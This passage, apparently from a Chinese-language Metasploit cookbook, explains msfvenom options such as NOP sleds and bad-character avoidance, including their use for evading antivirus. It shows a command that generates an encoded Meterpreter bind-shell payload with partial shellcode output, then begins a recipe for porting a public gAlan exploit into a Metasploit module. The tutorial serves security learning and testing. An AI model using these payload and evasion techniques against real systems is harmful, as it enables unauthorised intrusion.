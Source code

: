 ```
-k, --keep Preserve the template behavior and inject the payload as..
-h, --help Show this message 

```

有一些有趣的参数需要注意。`-n`参数创建有效负载大小的 NOP 滑坡。另一个有趣的参数是`-b`，它使我们有能力避免利用中的常见字符，如`\x00`。这在规避防病毒程序方面非常有帮助。其余的参数与我们可以在`msfpayload`和`msfencode`中找到的参数类似。

### 注意

NOP 滑坡，NOP 滑梯或 NOP 坡是一系列 NOP（无操作）指令，旨在“滑动”CPU 的指令执行流到最终期望的目的地。

## 它是如何工作的...

要使用`msfvenom`，我们将不得不传递有效负载以及编码样式。让我们在终端窗口上执行这个任务：

```
root@bt:~# msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3
[*] x86/shikata_ga_nai succeeded with size 325 (iteration=1)
[*] x86/shikata_ga_nai succeeded with size 352 (iteration=2)
[*] x86/shikata_ga_nai succeeded with size 379 (iteration=3)
buf =
"\xdb\xdb\xbe\x0a\x3a\xfc\x6d\xd9\x74\x24\xf4\x5a\x29\xc9" +
"\xb1\x52\x31\x72\x18\x83\xea\xfc\x03\x72\x1e\xd8\x09\xb6" +
"\xce\xc5\x86\x6d\x1a\xa8\xd8\x88\xa8\xbc\x51\x64\xe5\xf2" +
"\xd1\xb7\x80\xed\x66\x72\x6e\x0d\x1c\x68\x6a\xae\xcd\x0e" +
"\x33\x90\x1d\x73\x82\xd8\xd7\xe0\x87\x76\xbd\x25\xf4\x23" +
"\x4d\x38\xc2\xc3\xe9\xa1\x7e\x31\xc5\xe4\x84\x2a\x3b\x37" +
"\xb3\xd6\x13\xc4\x09\x89\xd0\x95\x21\x10\x6b\x83\x94\x3d" + 
```

注意已传递的不同参数。`-b`参数的存在将避免在 shell 代码中使用`\x00`（空字节）。我们可以在我们的利用程序中使用这个 shell 代码。

`msfvenom`可以是一个非常方便的工具，可以快速生成使用框架中可用的不同有效负载的 shell 代码。这些 shell 代码可以在利用代码中实现，以便在利用漏洞后与攻击者提供反向连接。

# 将利用转换为 Metasploit 模块

到目前为止，我们已经使用利用模块来 compromise 我们的目标。在这个配方中，我们将把我们的模块使用经验提升到一个新的水平。我们将尝试使用可用的概念验证来开发一个完整的利用模块。将利用转换为模块的知识对于将任何新的利用转换为框架模块并执行渗透测试而不必等待 Metasploit 团队的更新是必不可少的。此外，并不是每个利用都会以框架模块的形式可用。因此，让我们继续进行配方，并看看我们如何使用可用的概念验证构建我们自己的利用模块。

## 准备工作

首先，让我们选择任何可以转换为模块的利用。让我们考虑可以从[`www.exploit-db.com/exploits/10339`](http://www.exploit-db.com/exploits/10339)下载的 gAlan 零日利用。

**gAlan**是一个音频处理工具（在线和离线），适用于 X Windows 和 Win32。它允许您以模块化的方式通过链接表示原始音频处理组件的图标来构建合成器、效果链、混音器、序列器、鼓机等。

对于 gAlan 的利用只有在受害者使用该应用程序并且攻击者事先知道这一点时才会起作用。因此，攻击者必须知道受害者机器上安装了哪些应用程序。

## 如何做...
